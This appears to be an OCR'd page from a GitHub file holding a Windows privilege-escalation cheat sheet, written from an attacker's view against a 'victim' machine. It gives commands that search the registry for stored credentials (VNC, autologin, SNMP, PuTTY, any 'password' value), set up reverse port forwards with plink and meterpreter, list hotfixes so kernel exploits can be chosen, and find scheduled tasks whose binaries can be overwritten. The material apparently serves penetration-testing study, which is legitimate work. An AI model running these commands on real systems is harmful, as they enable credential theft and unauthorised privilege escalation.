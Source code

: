 	# VNC
	reg query "HKCU\Software\ORL\WinVNC3\Password"

	# Windows autologin
	reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

	# SNMP Paramters
	reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

	# Putty
	reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

	# Search for password in registry
	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s
	

**Running Services:**
	
    netstat -ano
	
**Port forward using plink**

    plink.exe -l root -pw mysecretpassword 192.168.x.x -R 8080:127.0.0.1:8080

**Port forward using meterpreter**

    portfwd add -l <attacker port> -p <victim port> -r <victim ip>
    portfwd add -l 3306 -p 3306 -r 192.168.x.x


**Kernel exploits**
Kernel exploits should be our last resource, since it might but the machine in an unstable state or create some other problem with the machine.

**Identify the hotfixes/patches**
    
    systeminfo
**or**
    
    wmic qfe get Caption,Description,HotFixID,InstalledOn

**Python to Binary**
If we have an exploit written in python but we don't have python installed on the victim-machine we can always transform it into a binary with pyinstaller. 

**Scheduled Tasks**
Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite.

    schtasks /query /fo LIST /v
